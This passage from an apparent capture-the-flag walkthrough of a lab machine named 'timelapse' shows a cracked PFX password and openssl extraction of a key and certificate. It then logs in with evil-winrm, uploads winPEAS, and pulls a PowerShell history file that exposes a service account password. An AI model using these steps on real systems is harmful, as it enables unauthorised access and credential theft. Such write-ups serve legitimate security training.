 ```bash
┌──(kali㉿kali)-[~/Documents/timelapse]
└─$ john crackmeagain.hash --show                                    
legacyy_dev_auth.pfx:thuglegacy:::::legacyy_dev_auth.pfx

1 password hash cracked, 0 left
```

- Now we just need to get the key and cert. We can follow the instruction for openssl [here](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)
- `openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key` we get the key we then need to choose a passphrase
- `openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.crt` we get the cert.
- We can use these key with evil-winrm `evil-winrm -i 10.10.11.152 -S -k legacyy.key -c legacyy.crt` and it works!  

![shell](../.res/2022-10-30-15-58-08.png)  

- We can get the user flag

## Privesc

- Let's take winpeas in the target `upload winPEASx64.exe` with evil winrm we just can use upload filename
- winpeas is catch by the AV.
- Let's go on with manual enumeration. We can use the commands listed [here](https://csbygb.gitbook.io/pentips/windows/powershell-cmd)
- After a while we can see that we have the history of the powershell commands
- Let's get it for more analysis `download C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
- We have a password in it

```bash
┌──(kali㉿kali)-[~/Documents/timelapse]
└─$ cat ConsoleHost_history.txt 
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
